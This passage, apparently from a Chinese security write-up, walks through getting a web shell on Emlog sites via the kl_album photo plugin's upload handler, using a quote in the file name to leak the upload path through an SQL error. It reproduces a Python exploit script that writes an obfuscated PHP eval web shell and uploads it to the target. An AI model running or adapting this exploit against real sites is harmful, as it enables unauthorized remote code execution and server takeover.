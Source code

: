 保存为html，本地打开：

![](images/15890071762856.png)


填入目标url，并选择要上传的shell。（如图，我这里是`info'.php`，会令SQL出错）。点击GO!

之后可以发现出错了，可以发现文件名已经爆出来了：`../content/plugins/kl_album/upload/201411/38493d4468377f721357e9c64f93637d2014111211381611097.php`

访问可见shell：

![](images/15890072032397.png)


这里给出独自等待的一份payload：


```python
#!/usr/bin/env python
# -*- coding: gbk -*-
# -*- coding: utf-8 -*-
# Date: 2015/4/30
# Created by 独自等待
# 博客 http://www.waitalone.cn/
import sys, os, re, time
 
try:
    import requests
except ImportError:
    raise SystemExit('\n[!] requests模块导入错误,请执行pip install requests安装!')
def usage():
    # os.system(['clear', 'cls'][os.name == 'nt'])
    print '+' + '-' * 60 + '+'
    print '\t Python emlog相册插件getshell exploit'
    print '\t   Blog：http://www.waitalone.cn/'
    print '\t\t Code BY： 独自等待'
    print '\t\t Time：2015-04-30'
    print '+' + '-' * 60 + '+'
    if len(sys.argv) != 2:
        print '用法: ' + os.path.basename(sys.argv[0]) + ' EMLOG 网站地址'
        print '实例: ' + os.path.basename(sys.argv[0]) + ' http://www.waitalone.cn/'
        sys.exit()
def getshell(url):
    '''
    emlog相册插件上传getshell函数
    :param url:  emlog url地址
    :return:     返回得到的shell地址
    '''
    up_url = url + 'content/plugins/kl_album/kl_album_ajax_do.php'
    shell = "<?php @preg_replace('\\'a\\'eis','e'.'v'.'a'.'l'.'($_POST[\"hstsec\"])','a');?>"
    filename = "oneok'.php"
    with open(filename, 'wb') as shellok:
        shellok.write(shell)
    files = {
        'Filedata': (filename, open(filename, 'rb'), 'text/json'),
        'album': (None, 'waitalone.cn')
    }
    try:
        up_res = requests.post(up_url, files=files).content
        shellok = re.findall(re.compile(r'(?<=\.\./).+?(?=\',)'), up_res)
    except Exception, msg:
        print '\n[x] 发生错误了,卧槽!!!:', msg
    else:
        if shellok: return url + shellok[0]
if __name__ == '__main__':
    usage()
```
